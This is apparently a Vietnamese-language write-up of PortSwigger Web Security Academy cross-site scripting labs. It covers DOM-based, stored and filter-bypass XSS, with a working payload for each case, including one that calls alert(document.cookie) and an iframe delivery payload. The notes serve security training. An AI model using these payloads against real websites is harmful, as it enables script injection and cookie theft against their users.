 ## Reflected DOM XSS

Đọc code ta thấy file `resources/js/searchResults.js` dùng eval để xử lí đầu vào search

Context: Với input `"abc"` hàm đã xử lý trả về JSON và dùng `\` để thoát dấu ngoặc kép `"`. Nhưng lại không thoát dấu `\` nên ta có thể sử dụng 

payload: `\"-alert(1)}//`

Giair thích: với dấu `"` hệ thống sẽ chèn `\` vào trước, và vì đầu vào ta có 1 dấu `\` nên 2 dấu `\\` cạnh nhau không dùng để loại bỏ `"` nữa nên đã có thể đóng được đối tượng search, từ đó ta thêm hàm `alert()` và rồi comment `//` đoạn cuối.

## Stored DOM XSS

Ở phần hiển thị các comment ta thấy file: `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`

Context: File này dùng hàm `replace` để xóa các kí tự `<` và `>` nhưng lỗ hổng của hàm này là chỉ replace các kí tự đầu tiên được tìm kiếm nên ta có 

payload: `<><img src=x onerror=alert(1)>`

## Reflected XSS into HTML context with most tags and attributes blocked

Context: Nhiều tag bị block, response trả về `Tag is not allowed`

Dùng `https://portswigger.net/web-security/cross-site-scripting/cheat-sheet` để tạo payload dùng tất cả các tag, đưa vào intruder

Payload: `%22%3E%3Cbody%20onresize=print()%3E`

payload gửi victim: `<iframe src="https://id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width=1>`

## Reflected XSS into HTML context with all tags blocked except custom ones

Bài này block hết tất cả tag ở bài trước, ta vẫn thử fuzzing bằng payload và nhận được khá nhiều request có 200 nhưng lại không thể `alert()` được dù vẫn thực hiện tag đó, chỉ có trường hợp là: `<a2 onfocus=alert(1) autofocus tabindex=1>` thì có thể `alert` nên ta dùng để viết payload gửi victim:

```js
<script>
location= 'https://0af4001203d37e4280f56cba00c600af.web-security-academy.net/?search=%3caudio2%20onfocus%3dalert(document.cookie)%20autofocus%20tabindex%3d1%3e';
</script>
```

## Reflected XSS with some SVG markup allowed

Dùng intruder tương tự tìm kiếm tag và event hợp lệ, payload: `<svg><animatetransform+onbegin%3Dalert(1)>`

